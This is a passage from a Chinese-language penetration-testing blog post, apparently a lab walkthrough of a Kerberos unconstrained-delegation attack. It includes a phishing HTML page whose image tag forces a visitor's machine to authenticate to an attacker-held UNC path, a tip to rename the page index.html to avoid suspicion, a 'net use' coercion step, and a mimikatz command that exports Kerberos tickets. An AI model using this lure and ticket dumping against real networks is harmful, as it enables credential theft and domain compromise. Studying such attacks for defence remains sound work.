   
net use \\webserver  
  
  
钓鱼：（just like xss，钓鱼让对面访问你，从而产生票据）  
  
  
http://192.168.3.31/31.html  
  
```
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
  <img src="file:///\\192.168.3.31\2">
</body>
</html>
```  
  
我觉得这种委派攻击神似PTT的利用历史遗留。  
  
  
我们先在dc上模拟与委派机器通讯  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7gC7z2ILAuXBD1kNFyia9e1s99EV8OicO2B3t826gMjRibOk3EibV0qBJtw/640?wx_fmt=png&from=appmsg "")  
  
  
对于钓鱼的方法这里也同步演示一下  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7dSwBD2OkfNeymkurXP8OIvR4AxJ1f9zvXvrtDyfCoUFcdt14zEaLzQ/640?wx_fmt=png&from=appmsg "")  
  
  
给他传到web主机。这里我也直接改了个名，改成index.html了！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7ruuMqXfIO1tMTqEq2dH8uhv7EDfYMKKsBnk8V6icDvlAA8ZXGFag23g/640?wx_fmt=png&from=appmsg "")  
  
  
然后让域控在浏览器访问一下web主机的web服务  
  
  
最好把31.html命令为index.html，那样的话直接访问首页就行，不容易被怀疑！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7o0FfFCq7Xl9pDrD6odoGWFbIXpwvDQ9TZImDiarmddC2ic7QGfFVblcw/640?wx_fmt=png&from=appmsg "")  
  
  
然后导出就行，一个道理，虽然我本地复现失败了，没有administrator的，环境问题？  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7S1SlKqsWz9zgQA5B6V1CjklBnqMibVjjpQKgA7cZtkpllb0s3UicBialg/640?wx_fmt=png&from=appmsg "")  
  
  
**2.导出票据到本地**  
  
  
mimikatz sekurlsa::tickets /export  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7I57bk7LKEgcpIRgLvVLYSqFNKsYE9WTdpzAD0QticHPa0vE4CSswXWg/640?wx_fmt=png&from=appmsg "")  
  